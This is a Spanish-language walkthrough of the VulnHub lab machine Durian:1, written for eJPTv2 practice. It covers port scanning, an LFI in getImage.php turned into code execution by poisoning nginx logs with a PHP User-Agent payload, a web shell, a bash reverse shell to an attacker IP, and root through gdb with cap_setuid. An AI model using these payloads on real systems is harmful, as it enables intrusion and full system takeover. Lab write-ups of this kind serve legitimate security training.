- - -

## Introducción

En esta máquina de **VulnHub**, **Durian:1**, nos enfrentamos a un escenario con varios servicios web expuestos en distintos puertos, usando tecnologías como Apache2, LiteSpeed y nginx. Tras descubrir un script `getImage.php` vulnerable a **LFI**, lo derivamos a un **RCE** mediante **Log Poisoning** sobre los logs de *nginx*, inyectando código PHP a través de la cabecera *User-Agent*, lo que nos da acceso inicial a la máquina mediante una *reverse shell*.

Durante la escalada de privilegios descartamos una vía tentadora (reutilización de credenciales desde una base de datos de WordPress) para encontrar el verdadero vector: el binario `gdb` con la *capability* `cap_setuid` asignada, que, apoyándonos en GTFOBins, nos permite escalar directamente a root.

Por combinar LFI, Log Poisoning y abuso de capabilities en un recorrido relativamente corto, es una buena máquina de dificultad *easy* para seguir afianzando metodología de cara a la eJPTv2.

## Fase de Reconocimiento 

- - -

### Identificación del objetivo en la red

```bash
arp-scan -I enp0s3 --localnet --ignoredups
```

{: width="700" }

```bash
ping -c 1 10.0.2.25
```

{: width="600" }

Le lanzamos un `ping` y logramos determinar que la máquina víctima está encendida. A mayores, gracias al *TTL* podemos identificar como atacantes que estamos ante una máquina Linux, ya que generalmente `Linux (TTL → 64) | Windows (TTL → 128)` son los valores comunes si no han sido modificados.

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.25 -oN allPorts
```

```bash
grep '^[1-9]' allPorts | cut -d '/' -f1 | xargs | sort | tr ' ' ','
```

{: width="700" }

```bash
nmap -p22,80,7080,8000,8088 -sCV 10.0.2.25  -oN targeted
```

{: width="800" }

{: width="700" }

Tras el escaneo vemos múltiples puertos abiertos, la mayoría exponiendo un servicio *HTTP* que utiliza distintas tecnologías, como *Apache2*, *LiteSpeed* y *nginx*… Por otro lado, también reporta el puerto 22 abierto, donde corre el servicio *SSH*, que no es vulnerable a enumeración de usuarios, ya que su versión es superior a la 7.7. Entre las cosas que podemos destacar del reporte de `nmap` está que, en el puerto 7080, se encuentra un “LiteSpeed WebAdmin Console”, y además se encontró un */login.php* en este servicio web.

Sabiendo esto, podemos pasar a enumerar los distintos servicios encontrados en la fase de escaneo de puertos.

## Enumeración 

- - -

### Servicio HTTP (puerto 80)

```bash
whatweb http://10.0.2.25
```



```bash
nmap -p80 --script http-enum 10.0.2.25 | cat -l  java
```

{: width="600" }

Vemos que por detrás se está utilizando el gestor de contenido **WordPress** en la ruta */blog*. Vamos a acceder a través del navegador:

{: width="1000" }

Encontramos una web en la que debería haber una imagen, pero el enlace no funciona, ya que la máquina tiene ya cierto tiempo. Vamos a aplicar *fuzzing* en busca de archivos y directorios.

```bash
gobuster dir -u http://10.0.2.25 -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

{: width="1000" }

Encontramos los directorios */blog* y */cgi-data*. Por el nombre, podemos intuir que en el primero seguramente encontremos algún tipo de gestor de contenido; vamos a echar un vistazo:

- */blog*

{: width="500" }

Tiene toda la pinta, y, a mayores, parece que se está aplicando *virtualHosting*, por lo que no carga correctamente los recursos de la página web. Para solucionar esto, podemos ver el código fuente (ctrl + u) y tratar de ver desde dónde trata de cargar los recursos, para añadir el dominio a nuestro archivo */etc/hosts* y que así nuestra máquina atacante resuelva el *DNS* y la web cargue todo correctamente.



El problema es que trata de cargar los recursos desde la IP 192.168.17.61, que no tengo claro de dónde sale, y, al ser una IP y no un dominio, no podemos añadirla a nuestro */etc/hosts*, por lo que, de momento, vamos a pasar a enumerar el siguiente directorio */cgi-data*.

- */cgi-data*

{: width="400" }

Se aplica *directory listing*, y tenemos el archivo *getImage.php*; si lo descargamos para ver su contenido, veremos lo siguiente:

```bash
wget http://10.0.2.25/cgi-data/getImage.php && cat getImage.php
```

{: width="600" }

Un código vulnerable a **LFI** en toda regla, pasándole el parámetro “file”, por lo que podemos tratar de incluir archivos locales de la máquina de la siguiente manera:

```http
http://10.0.2.25/cgi-data/getImage.php?file=/etc/passwd
```

{: width="600" }

Efectivamente, logramos incluir el archivo */etc/passwd* de la máquina víctima, descubriendo así el usuario local “durian”. En este punto, para tratar de derivar este **LFI** a un **RCE**, podemos tratar de ver si somos capaces de incluir algún archivo de logs, como el de *Apache*, *SSH* o *nginx*.

### Servicio HTTP (puerto 7080)

```bash
whatweb https://10.0.2.25:7080
```



Parece que se aplica una redirección y se nos lleva a la página */login.php*, a la que vamos a acceder a través del navegador:

{: width="300" }

Encontramos este panel de login del aplicativo web “Open LiteSpeed”; vamos a buscar vulnerabilidades conocidas para este.

```bash
searchsploit litespeed
```



Encontramos varias vulnerabilidades conocidas interesantes, como varios **XSS** y **RCE**… Ni `whatweb` ni `Wappalyzer` nos reportan la versión del aplicativo, por lo que, por el momento, poco más podemos hacer por esta parte.

## Explotación 

- - -

### Log Poisoning (nginx)

Lo primero es ver si podemos incluir el archivo de log */var/log/nginx/access.log*:

```http
http://10.0.2.25/cgi-data/getImage.php?file=/var/log/nginx/access.log
```



Efectivamente, tenemos capacidad de incluir el archivo en el navegador a través del **LFI**. Lo siguiente sería meter nuestro payload a través del User-Agent de una petición; por ejemplo, podríamos probar lo siguiente:

```bash
curl -s -X GET "http://10.0.2.25:8000/" -H "User-Agent: PROBANDO"
curl -s -X GET "http://10.0.2.25:8000/" -H "User-Agent: <?php system('whoami'); ?>"
```



De esta forma vemos que logramos obtener el **RCE** a través de la explotación del **Log Poisoning** con los archivos de log del servicio *HTTP* de *nginx*. En este punto, nos quedaría ganar acceso a la máquina lanzándonos una *reverse shell*. Primero conseguiremos una *webShell* con la siguiente petición, y luego lanzaremos la *reverse shell* desde la URL:

```bash
curl -s -X GET "http://10.0.2.25:8000/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

```http
http://10.0.2.25/cgi-data/getImage.php?file=/var/log/nginx/access.log&cmd=id
```



Una vez obtenida la webShell, lanzamos la reverse shell desde la URL.

```bash
http://10.0.2.25/cgi-data/getImage.php?file=/var/log/nginx/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/10.0.2.13/443 0>%261'
```

```bash
# nos ponemos en escucha en nuestra máquina atacante
nc -nlvp 443
```

{: width="600" }

Así logramos realizar la intrusión a la máquina víctima. Acto seguido haríamos un tratamiento de la TTY, y luego podríamos empezar con la enumeración local para escalar privilegios.

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
# ctrl + z 
stty raw -echo;fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 53 columns 206
```

## Escalada de privilegios 

- - -

### Enumeración local 

```bash
grep 'sh$' /etc/passwd
```



Como vimos antes en el **LFI**, existe el usuario “durian”, al que parece que debemos tratar de pivotar para encontrar la forma de escalar privilegios en la máquina víctima. Si recordamos, la máquina contaba con un CMS desplegado en su ruta */blog* que resulta ser un WordPress; inspeccionando los archivos de la máquina, en “wp-config.php”, podemos encontrar lo siguiente:



Credenciales de la base de datos a la que podemos conectarnos para tratar de ver si el usuario “durian” existe y se aplica reutilización de credenciales.

```bash
mysql -u wordpressuser -h localhost -p 
```

{: width="500" }



Únicamente está el usuario admin, al que podríamos tratar de crackear la contraseña por si se reutiliza para el usuario “durian”, pero sería mucha coincidencia… 

### Explotación de capabilities

Vamos a seguir enumerando el sistema.

```bash
getcap / -r 2>/dev/null
```



Encontramos el binario `gdb` con la *capability* `cap_setuid`, que nos permite cambiar el uid del proceso que lancemos. Podemos apoyarnos en [GTFOBins](https://gtfobins.org) para ver cómo llevar a cabo la escalada:

{: width="600" }

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```





De esta manera habríamos completado la máquina Durian:1 de VulnHub!!!
